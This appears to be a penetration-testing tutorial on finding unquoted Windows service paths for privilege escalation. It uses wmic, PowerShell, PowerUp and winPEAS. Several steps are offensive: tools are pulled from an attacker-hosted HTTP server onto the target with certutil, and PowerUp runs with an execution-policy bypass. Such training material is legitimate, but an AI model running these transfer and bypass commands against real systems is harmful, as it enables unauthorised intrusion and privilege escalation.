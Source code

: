### **HUNTING FOR UNQUOTED SERVICES MANUALLY**

1.  The first thing we should check when we get a foothold is what privileges our current user has using   
    `whoami /priv`

    ![](../../../../img/Windows-Environment/67.png)

    **NOTE:** The SeShutdown privilege allows restarting a machine, Typically, you might lack permissions to directly stop/start a service. However, with SeShutdown, you can restart the machine, indirectly restarting the service and facilitating exploitation,The SeShutdown privilege, even if marked "Disabled," can still be used because it's only disabled for the current session.
    
2.  We can manually hunt for any unquoted service paths on the system using cmd.  
    `wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """`  
    
    !![](../../../../img/Windows-Environment/68.png)
    
3.  We can manually hunt for any unquoted service paths on the system using Powershell.  
    `Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName`

    ![](../../../../img/Windows-Environment/69.png)

    **NOTE:** Both commands have found that the unquotedsvc service has an unquoted service path and that the Start-mode is an Manual service.
    
4.  To Check Service Path Configuration and if we have permissions to start service:  
    `sc sdshow unquotedsvc`

    ![](../../../../img/Windows-Environment/70.png)
    

### **HUNTING FOR UNQUOTED SERVICES WITH POWERUP**

1.  If you don’t already PowerUp, you can get PowerUp.ps1 using the following command:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`

    ![](../../../../img/Windows-Environment/71.png)
    
2.  Host the Powershell Script Using Python:  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/72.png)
    
3.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/PowerUp.ps1 PowerUp.ps1`

    ![](../../../../img/Windows-Environment/73.png)
    
4.  To bypass the PowerShell execution policy and execute the PowerUp.ps1 in a single line:  
    `powershell -ep bypass -c "& {.\PowerUp.ps1}"`

    ![](../../../../img/Windows-Environment/74.png)

    **NOTE:** PowerUp.ps1 can enumerate misconfigurations and has built-in functions to exploit many of them. However, finding an unquoted service path doesn't always mean it's vulnerable. PowerUp recognizes the misconfiguration and suggests an AbuseFunction, assuming it is exploitable.
    

### **HUNTING FOR UNQUOTED SERVICES WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/75.png)
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`

    ![](../../../../img/Windows-Environment/76.png)
    
3.  winPEAS has filters for the Services Information category to find unquoted service paths using:  
    `.\winPEASx64.exe quiet servicesinfo`

    ![](../../../../img/Windows-Environment/77.png)

    **NOTE:** Sharpen your eagle eye to quickly find important data in the winPEAS output by paying attention to the red and yellow highlighted sections.